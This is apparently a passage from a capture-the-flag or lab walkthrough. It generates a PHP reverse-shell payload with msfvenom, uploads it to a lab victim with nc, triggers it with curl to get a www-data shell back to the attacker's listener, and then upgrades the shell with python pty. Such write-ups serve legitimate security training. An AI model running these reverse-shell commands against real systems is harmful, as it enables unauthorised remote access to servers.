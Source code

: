 🔄 Alternative Step.

`msfvenom -p php/reverse_php LHOST=192.168.56.118 LPORT=5555 -f raw > ./revsh.php`:
```
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 2997 bytes
```

`cat ./revsh.php | nc 192.168.56.130 4444`

![Victim: pink](https://img.shields.io/badge/Victim-pink-64b5f6?logo=linux&logoColor=white)

```
connect to [192.168.56.130] from (UNKNOWN) [192.168.56.118] 48604 ←
```

`ls -alps ./`:
```
total 836
  4 drwxrwxrwx 2 www-data www-data   4096 Oct  1 11:23 ./
  4 drwxr-xr-x 3 root     root       4096 Jan 27  2023 ../
  4 -rw-r--r-- 1 www-data www-data    295 Jan 27  2023 index.html
 12 -rw-r--r-- 1 www-data www-data  10701 Jan 27  2023 index.html.bak
  4 -rw-r--r-- 1 pink     pink         20 Oct  1 09:23 info.php
  4 -rw-r--r-- 1 pink     pink        135 Oct  1 11:23 revsh.php ←
804 -rw-r--r-- 1 www-data www-data 821574 Jan 27  2023 seized.png
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lnvp 5555`:
```
listening on [any] 5555 ... ←
```

`curl http://192.168.56.130/revsh.php`

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.130] 56566 ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`python3 -c 'import pty; pty.spawn("/bin/bash")' && stty raw -echo && fg; export TERM=xterm; stty rows $(tput lines) cols $(tput cols)`

`whoami`:
```
www-data ←
```

`id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
